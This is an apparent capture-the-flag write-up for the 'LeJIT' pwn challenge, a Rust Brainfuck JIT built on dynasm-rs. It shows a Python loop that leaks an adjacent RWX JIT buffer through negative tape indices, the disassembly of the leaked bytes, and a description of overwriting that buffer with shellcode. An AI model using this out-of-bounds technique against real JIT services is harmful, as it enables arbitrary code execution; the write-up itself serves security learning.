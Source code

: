 # LeJIT

From the challenge description, it appears that we are going to have to exploit some kind of JIT runtime for [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck).

Trying to figure out more about the implementation, I typed in some garbage and got a somwhat helpful error message:

```
bf$ ;e[;w[;wd]wp[f,p[]resmf,
thread 'main' panicked at 'brainf*ck compilation failed: [ without matching ]', src/main.rs:272:17
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```

So, this error message at least tells us that this is written in Rust. Using the awesome GitHub code search tool [grep.app](https://grep.app), I found the project that this implementation seemed to be based on: [dynasm-rs](https://github.com/CensoredUsername/dynasm-rs). Click [here](https://grep.app/search?q=%5B%20without%20matching%20%5D) for the actual query I ran to find the project.

Knowing this, we basically have a full source code reference for the basic implementation of the program. Since this is a pwn challenge, I assumed that I should focus on Brainfuck's operations for moving the data pointer and reading/writing memory. Messing around some more yielded something interesting:

```sh
$ bf <<<<<>>>.
(
```

The above line is moving the data pointer to a negative index of the tape (i.e., Brainfuck's linear memory) and printing out actual data. We can automate this a little bit to extract out a lot more data:

```python
data = ''
for i in range(126):
    resp = send_cmd(io, '<' * i + '.')
    data += resp
    print(i)

with open('data.reversed.raw', 'wb') as f:
    f.write(''.join(reversed(data)))
```

Of note is that byes in the buffer are in reverse order of their semantic meaning. We can then disassemble the extracted bytes with:

```sh
$ objdump -D -b binary -Mintel -mi386:x86-64 data.reversed.raw
... snip ...
   0:   83 ec 28                sub    esp,0x28
   3:   48 89 4c 24 30          mov    QWORD PTR [rsp+0x30],rcx
   8:   4c 89 44 24 40          mov    QWORD PTR [rsp+0x40],r8
   d:   4c 89 4c 24 48          mov    QWORD PTR [rsp+0x48],r9
  12:   48 81 ee 68 00 00 00    sub    rsi,0x68
  19:   48 3b f2                cmp    rsi,rdx
... snip ...
```

This looks like real assembly, so we are probably leaking from the RWX JIT buffer that is stored adjacent to the Brainfuck tape. It assembles for both 32-bit and 64-bit x86 variants. However, the dumped beginning of the assembly also looks exactly like the [dynasm prologue](https://github.com/CensoredUsername/dynasm-rs/blob/a68f9df2210820dfaa543e2087f2f62b221ba01f/doc/examples/bf-jit/src/x64.rs#L30).

Since this JIT buffer is RWX, we can write our own assembly payload to it, which will then be executed. Just like we read the assembly from the buffer in reverse, we have to write it in reverse, too. I wasn't sure what an acceptable offset into the RWX buffer was, so I just bruteforced it. Full solution script is available [here](./solve.py).
